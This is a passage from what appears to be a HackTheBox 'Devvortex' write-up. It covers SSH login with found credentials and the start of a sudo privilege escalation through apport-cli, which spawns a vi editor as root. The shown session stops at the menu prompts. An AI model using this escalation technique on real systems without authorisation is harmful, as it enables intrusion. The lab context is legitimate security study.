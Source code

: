     Started: Sat Apr 27 13:54:26 2024
    Stopped: Sat Apr 27 13:54:54 2024
    ```

From recon part we know that SSH is running on open port 22. So, lets use the credentials to log into logan account using ssh. the we can simply cat out the user flag.

![user flag](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/devvortex/user_flag.jpg)

## Privilege Escalation

`sudo -l` command revealed that logan can run apport-cli with sudo privilege.

### What is this apport-cli?
- I checked on google and got a POC for privilege escalation. We can use apport-cli to report some files. Here the vullnerability is, when we report some files and then following few steps gives us vi editor. Now we have a vi editor with sudo privilege, it's a piece of cake. Lets exploit it.


```bash
logan@devvortex:~$ sudo /usr/bin/apport-cli -f

*** What kind of problem do you want to report?


Choices:
  1: Display (X.org)
  2: External or internal storage devices (e. g. USB sticks)
  3: Security related problems
  4: Sound/audio related problems
  5: dist-upgrade
  6: installation
  7: installer
  8: release-upgrade
  9: ubuntu-release-upgrader
  10: Other problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/9/10/C): 1


*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.

*** What display problem do you observe?


Choices:
  1: I don't know
  2: Freezes or hangs during boot or usage
  3: Crashes or restarts back to login screen
  4: Resolution is incorrect
  5: Shows screen corruption
  6: Performance is worse than expected
  7: Fonts are the wrong size
  8: Other display-related problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/C): 2

*** 

To debug X freezes, please see https://wiki.ubuntu.com/X/Troubleshooting/Freeze

```
